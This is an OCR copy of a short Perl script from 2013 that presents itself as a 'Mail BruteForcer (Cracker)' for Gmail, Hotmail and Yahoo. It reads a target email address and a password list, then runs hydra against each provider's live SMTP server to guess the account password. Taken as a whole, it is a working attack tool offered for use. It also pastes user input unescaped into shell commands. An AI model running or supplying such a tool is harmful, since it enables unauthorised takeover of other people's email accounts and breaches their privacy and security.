 #!/usr/bin/perl

# This is a simple Mail BruteForcer (Cracker) that can
# bruteforce Yahoo, Gmail and Hotmail mail's. In the next
# version we will add more SMTP servers.
# Keep in touch!
# Author 		: mR.Thg !
# Contact 	 	: mr.thg@techie.com
# Script version 	: 1.0
# Tested OS 		: Debian
# Release date 		: 29/6/2013
# Next Release 		: 01/7/2013
# Enjoy!

use warnings;

system("clear");
print("Multiple Mail Bruter v1.0!");
print("\n 1. Yahoo");
print("\n 2. Hotmail");
print("\n 3. Gmail");
print("\n");

print("Chose SMTP: ");
$menu=

&lt;STDIN&gt;

;
chomp($menu);

print "Mail: ";
$mail=

&lt;STDIN&gt;

;
chomp($mail);
print "List: ";
$list=

&lt;STDIN&gt;

;
chomp($list);

if ( $menu == 3 )
> {
> system( "hydra -S -l " . $mail . " -P " . $list . "  -e ns -V -s 465 smtp.gmail.com smtp" );
> }
if ( $menu == 2 )
> {
> system( "hydra -S -l " . $mail . " -P " . $list . "  -e ns -V -s 587 smtp.live.com smtp" );
> }
if ( $menu == 1 )
> {
> system( "hydra -S -l " . $mail . " -P " . $list . "  -e ns -V -s 465 smtp.mail.yahoo.com smtp" );
> }
END